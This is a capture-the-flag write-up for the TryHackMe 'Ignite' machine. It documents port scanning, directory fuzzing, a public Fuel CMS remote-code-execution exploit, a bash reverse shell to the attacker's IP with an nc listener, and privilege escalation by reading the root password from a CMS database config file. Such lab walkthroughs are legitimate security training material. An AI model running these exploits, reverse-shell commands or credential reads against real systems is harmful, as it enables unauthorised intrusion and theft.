# Ignite

## General information

<h3>Difficulty:  </h3>

<h3> Operating system: Linux </h3> 

<h3> Exploited vulnerability: Remote Code Execution </h3>

<h3> Date of resolution: 26/06/2025 </h3>

<h3>Link Virtual Machine: <a href="https://tryhackme.com/room/ignite" target="_blank">Ignite</a></h3>

### *Read the document in Spanish:* <a href="ignite.md">Ignite</a>

## Recognition

TryHackme provides us with the IP of the target machine **target_ip**

### Scanning for open ports

#### TCP port scanning

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <IP of the target machine>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version             |
| --------- | ------- | ------------------- |
| 80        | http    | Apache httpd 2.4.18 |

</div>

#### UDP port scanning

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

<p align="center"> 

</p>

**We have achieved nothing**

## Exploration

In nmap I saw two paths **robots.txt** and **fuel**

```
http://<ipTarget>/robots.txt
```

<p align="center"> 

</p>

```
http://<ipTarget>/fuel
```

<p align="center"> 

</p>

The **TargetIP** turns out to be an **http**, I investigate it, and we find the following:

<p align="center"> 

</p>

I enter my credentials to log in to the **dashboard**, and I investigate and find the following:

<p align="center"> 

</p>

I try to upload a malicious .php file and get the following:

<p align="center"> 

</p>

*The file type you are trying to upload is not allowed*

I try to upload a .txt and the following appears:

<p align="center"> 

</p>

*An error occurred while uploading your file. Please make sure the server is configured to upload files of this size and that the folders have write permissions.*

I can't find anything, so I decide to investigate elsewhere.

### Fuzzing web

```
gobuster dir -u http://10.10.37.109/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

## Exploitation

### Exploitation 1

I'm looking for *fuelcsms vulnerability* on the internet.

<p align="center"> 

</p>

I'm doing some research on forums, and I'm curious to find out that this vulnerability isn't patched until a year later. I try to find an exploit, and... on this page, I find a <a href="https://www.exploit-db.com/exploits/50477" target="_blank">**Remote code execution**</a>

<p align="center"> 

</p>

I download the exploit to my attacker's machine and attempt to execute it.

```
python3 50477.py
```

<p align="center"> 

</p>

But the exploit author tells me to enter the URL, then the command would be as follows:

```
python3 50477.py -u http://<ipTarget>
```

<p align="center"> 

</p>

I try to explore and find my first **flag.txt** but I find out that the cmd is broken...Therefore, I do <a href="https://www.revshells.com" target="_blank">**Reverse Shell**</a> with the help of this page, in order to obtain a more stable cmd.

<p align="center"> 

</p>

First, I open a terminal, to activate my listening port

```
nc -lvnp 4444
```

Second, on my target machine I run the following command:

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/4444 0>&1"
```

<p align="center"> 

</p>

```
cd /home
cd www-data
cat flag.txt
```

<p align="center"> 

</p>

## Post-Exploitation

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Privilege Escalation

#### First command:

```
sudo -l
```

**I haven't achieved anything**

#### Second command:

```
find / -perm -4000 2>/dev/null
```


The page we visited to see the vulnerabilities is <a href="https://gtfobins.github.io" target="_blank">**gtfobins**</a>

**I haven't achieved anything**

#### Third command

```
uname -r
```

<p align="center"> 

</p>

I try to find out if there's any vulnerability with this, "it seems like it..." but when I do, it turns out it doesn't work. I despair, I cry, and then I decide to **start over**... and look what a surprise I get.

<p align="center"> 

</p>

The **root** password is located at **fuel/application/config/database.php***, First you have to observe where you should be first:

<p align="center"> 

</p>

```
cat fuel/application/config/database.php
```

<p align="center"> 

</p>

**Mental note** Before going to the most difficult part, **research**, **read**, **write down**, because many times the machine itself tells you where to go. **Learn English** I also have to apply it to myself.

```
su root
Whaomi
```

<p align="center"> 

</p>

```
cd /root
cat root.txt
```

<p align="center"> 

</p>

## Conclusion

This machine has been very curious to me, and it has also reminded me of something very important **research, read, write down and review** It saves you a lot of time. When I tried to exploit the vulnerability of the cms **fuel** it was most curious because when I had to investigate, in the first place, Google spit out the **Exploit Database RCE**, I only had to investigate how to use the exploit written in python, and the author, the nicest person, explaining how to use it. Then you realize that the cmd is completely broken, but with almost 10 machines solved, you know how to fix it with a **reverse shell** and that's it. It's time for **privilege escalation**, when I found the key where I had to pull, I felt super stupid, from all the wasted time, and this is where the learning of this machine comes in **research, read, write down and review** because many times at this level, the machine itself tells you where to look. From there, I easily found the last Flag I had left.
